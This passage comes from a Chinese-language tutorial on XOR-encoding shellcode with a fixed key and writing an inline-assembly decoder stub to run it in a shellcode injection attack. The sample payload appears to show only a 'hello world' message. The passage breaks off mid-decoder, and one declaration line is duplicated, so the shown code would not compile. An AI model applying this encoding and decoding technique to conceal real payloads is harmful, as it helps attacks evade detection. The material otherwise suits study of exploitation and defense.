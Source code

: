 ```c++
    {
        fprintf(fp, "\\x%0.2x", output[i]);
        if ((i + 1) % 16 == 0)
            fprintf(fp, "\"\n\"");
    }
    fprintf(fp, "\"");
    fclose(fp);
    printf("dump the encoded shellcode to encode.txt OK!\n");
    free(output);
}
int main()
{
    char sc[] =
       char sc[] =
    "\x33\xDB\x53\x68\x72\x6C\x64\x20\x68\x6F\x20\x77\x6F\x68\x68\x65\x6C\x6C\x8B\xC4" \
    "\x53\x50\x50\x53\xB8\xEA\x07\xD5\x77\xFF\xD0\x90";
        encoder(sc, 0x44);
    getchar();
    return 0;
}
```

​	以上代码就实现了我们的xor编码的功能，key是我们的异或的字符，是固定的取值0x44，main函数 中，我们通过for循环，将每一位shellcode都进行异或操作，将新得到的shellcode进行保存即可.

​	我们运行这段代码，发现输出：

![image-20250410111511661](C:\Users\coffe\AppData\Roaming\Typora\typora-user-images\image-20250410111511661.png)

​	说明我们的程序已经得到运行，在生成该代码的地址观察，发现在桌面生成了一个新的 encode文件，打开之后，发现里面存储着我们的编码。

![image-20250410111709135](C:\Users\coffe\AppData\Roaming\Typora\typora-user-images\image-20250410111709135.png)

​	进行xor编码之后的shellcode代码就是：

```
\x77\x9f\x17\x2c\x36\x28\x20\x64\x2c\x2b\x64\x33\x2b\x2c\x2c\x21\x28\x28\xcf\x80\
x17\x14\x14\x17\xfc\xae\x43\x91\x33\xbb\x94\xd4
```

​	说明我们成功完成了编码的操作 。



### 四、shellcode代码的解码

​	在我们进行编码之后，我们还需要进行解码，才能完成最后的shellcode注入攻击。我们需要在 shellcode前加上一段代码来进行解码，这样才能确保程序正确运行。

​	我们用以下的代码来进行解码：

```c++
#include <stdlib.h>
#include <string.h>
#include <stdio.h>
int main()
{
    __asm
    {
        call lable;
        lable: pop eax;
        add eax, 0x15 ;越过decoder记录shellcode起始地址
            xor ecx, ecx
            decode_loop:
        mov bl, [eax + ecx]
            xor bl, 0x44 ;用0x44作为key
                mov [eax + ecx], bl
                inc ecx
                cmp bl, 0x90 ;末尾放一个0x90作为结束符
```